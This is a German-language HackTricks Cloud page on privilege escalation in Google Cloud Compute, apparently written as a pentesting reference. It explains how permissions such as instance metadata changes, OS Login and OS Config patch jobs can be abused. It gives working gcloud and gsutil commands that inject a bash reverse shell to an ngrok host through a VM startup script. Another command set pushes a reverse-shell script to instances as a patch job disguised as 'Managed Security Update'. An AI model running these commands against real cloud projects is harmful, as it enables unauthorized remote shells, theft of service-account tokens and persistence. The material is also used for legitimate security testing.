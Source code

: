 # GCP - Berechtigungserhöhung für Compute

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) in GCP überprüfen Sie:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Beachten Sie, dass für alle Berechtigungserhöhungsangriffe, die erfordern, dass Sie die Metadaten der Instanz ändern (wie das Hinzufügen neuer Benutzer und SSH-Schlüssel), **`actAs`-Berechtigungen über den an die Instanz angehängten SA erforderlich sind**, auch wenn der SA bereits angehängt ist!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Mit dieser Berechtigung können Sie die **Metadaten**-Informationen einer **Instanz** **ändern** und die **autorisierten Schlüssel eines Benutzers** ändern oder einen **neuen Benutzer mit sudo-Berechtigungen erstellen**. Dadurch können Sie über SSH auf eine beliebige VM-Instanz zugreifen und das GCP-Servicekonto stehlen, mit dem die Instanz ausgeführt wird.\
Einschränkungen:

* Beachten Sie, dass GCP-Servicekonten, die standardmäßig in VM-Instanzen ausgeführt werden, einen **sehr begrenzten Umfang** haben
* Sie müssen in der Lage sein, den SSH-Server zu kontaktieren, um sich anzumelden

Für weitere Informationen darüber, wie Sie diese Berechtigung ausnutzen können, überprüfen Sie:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Sie könnten diesen Angriff auch ausführen, indem Sie ein neues Startskript hinzufügen und die Instanz neu starten:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Diese Berechtigung gibt die **gleichen Privilegien wie die vorherige Berechtigung**, aber nur für bestimmte Instanzen anstelle des gesamten Projekts. Es gelten **die gleichen Exploits und Einschränkungen wie im vorherigen Abschnitt**.

### `compute.instances.setIamPolicy`

Diese Art von Berechtigung ermöglicht es Ihnen, sich selbst eine Rolle mit den vorherigen Berechtigungen zu **erteilen und Privilegien zu eskalieren, indem Sie sie missbrauchen**.

### **`compute.instances.osLogin`**

Wenn **OSLogin auf der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANZ]`** ausführen und sich mit der Instanz verbinden. Sie **haben keine Root-Rechte** innerhalb der Instanz.

{% hint style="success" %}
Um sich mit dieser Berechtigung erfolgreich in der VM-Instanz anzumelden, benötigen Sie die Berechtigung `iam.serviceAccounts.actAs` über den an die VM angehängten SA.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Wenn **OSLogin auf der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANZ]`** ausführen und sich mit der Instanz verbinden. Sie haben **Root-Rechte** innerhalb der Instanz.

{% hint style="success" %}
Um sich mit dieser Berechtigung erfolgreich in der VM-Instanz anzumelden, benötigen Sie die Berechtigung `iam.serviceAccounts.actAs` über den an die VM angehängten SA.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es ist möglich, **eine virtuelle Maschine mit einem zugewiesenen Service Account zu erstellen und das Token des Service Accounts zu stehlen**, um Privilegien darauf zu eskalieren.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Wenn Sie die Berechtigungen **`osconfig.patchDeployments.create`** oder **`osconfig.patchJobs.exec`** haben, können Sie einen [**Patch-Job oder ein Deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) erstellen. Dadurch können Sie seitlich in der Umgebung bewegen und Code-Ausführung auf allen Compute-Instanzen innerhalb eines Projekts erlangen.

Beachten Sie, dass Sie im Moment **keine `actAs`-Berechtigung** über den an die Instanz angehängten SA benötigen.

Wenn Sie dies manuell ausnutzen möchten, müssen Sie entweder einen [**Patch-Job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **oder** ein [**Deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json) erstellen.\
Für einen Patch-Job führen Sie aus:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Um eine Patch-Bereitstellung durchzuführen:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Das Tool [patchy](https://github.com/rek7/patchy) wurde in der Vergangenheit verwendet, um diese Fehlkonfiguration auszunutzen (funktioniert jetzt aber nicht mehr).

**Ein Angreifer könnte dies auch für Persistenz ausnutzen.**

### `compute.machineImages.setIamPolicy`

**Gewähre dir zusätzliche Berechtigungen** für Compute-Images.

### `compute.snapshots.setIamPolicy`

**Gewähre dir zusätzliche Berechtigungen** für einen Festplattensnapshot.

### `compute.disks.setIamPolicy`

**Gewähre dir zusätzliche Berechtigungen** für eine Festplatte.

### Umgehung von Zugriffsberechtigungen

Unter folgendem Link finden Sie einige [**Ideen, wie Sie Zugriffsberechtigungen umgehen können**](../).

### Lokale Privilegieneskalation in GCP Compute-Instanz

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
